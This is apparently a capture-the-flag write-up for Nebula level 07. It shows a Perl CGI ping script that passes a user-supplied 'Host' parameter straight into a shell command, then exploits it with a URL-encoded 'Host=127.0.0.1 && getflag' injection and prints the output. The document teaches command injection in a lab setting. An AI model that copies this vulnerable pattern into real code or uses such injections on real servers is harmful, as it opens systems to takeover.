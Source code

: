 ## Level 07 ##

>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. 

{{< highlight perl >}}

#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; } 

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));

{{< / highlight >}}

So the Nebula machine has a webserver running. Checking the config file we can see that it's running on port 7007. The script tells us that it's expecting a `Host` parameter. So let's hit the server from our web browser at the following URL (your IP will depend on what IP your VM has) `http://192.168.56.102:7007/index.cgi?Host=192.168.56.102`

Basically I am pinging the same host. The webpage will display the output of the ping command.

We can't change the ping call, but we have control over what gets passed to the command. Let's craft a special URL

{{< highlight console >}}
$> curl http://192.168.56.102:7007/index.cgi?Host=127.0.0.1%20%26%26%20getflag
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.117 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.035 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.028/0.060/0.117/0.040 ms
You have successfully executed getflag on a target account
{{< / highlight >}}

Notice we need to encode the URL parms. The plaintext URL is `http://192.168.56.102:7007/index.cgi?Host=127.0.0.1 && getflag`
